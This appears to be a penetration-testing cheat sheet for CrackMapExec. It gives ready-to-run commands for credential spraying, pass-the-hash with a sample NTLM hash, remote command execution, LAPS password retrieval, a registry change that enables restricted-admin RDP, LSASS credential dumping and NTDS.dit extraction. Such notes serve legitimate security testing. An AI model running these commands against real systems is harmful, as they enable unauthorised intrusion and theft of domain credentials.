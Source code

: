 ```yaml
---
title: Crackmapexec
parent: General Usage
layout: default
nav_order: 6
---
```


`-x` for command to be run, `-u` and `-p` both can put wordlist

Crackmapexec in Kali is outdated, but discontinued. Use at own discretion.

Simple general usage using password:\
`./cme smb IP --kdcHost dc.fulldomain.com -u user -p pass -x ipconfig`

Simple general usage using hashes (local authentication, can remove if no need):\
`./cme smb IP --kdcHost dc.fulldomain.com -u Administrator -H ee0c207898a5bccc01f38115019ca2fb -x ipconfig --local-auth`

To test whether a set of credential is valid to spawn shell, can use: (green <span style="color:green;">+</span> means correct, red <span style="color:red;">-</span> means wrong, orange <span style="color:orange;">Pwn3d!</span> means can spawn shell) (can replace username and password with listing you created, `--port` if custom port):\
`./cme smb targetIP -u username -p password --continue-on-success`\
(Replace protocols with rdp, ssh, mssql, winrm, smb, ldap to try more)

Get LAPS password (add the kdcFQDN to hosts file if fails):\
`./cme ldap targetIP -u user -p password --kdcHost kdcFQDN -M laps`

To run commands after seeing (Pwned!), append `-x` for normal cmd, or `-X` for powershell. Can use quotes for long commands.

Enable RDP via CME:\
`./cme smb targetIP -u user -H hash --local-auth -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'`

**Admin Privilege required:**
Immediately dump LSASS password using CME (replace `-d` with `--local-auth` if local account):\
`./cme smb targetIP -u user -H hash -d domain.com -M lsassy`

Dump the NTDS.dit:\
`./cme smb targetIP -d domain.com -u user -H hash --ntds`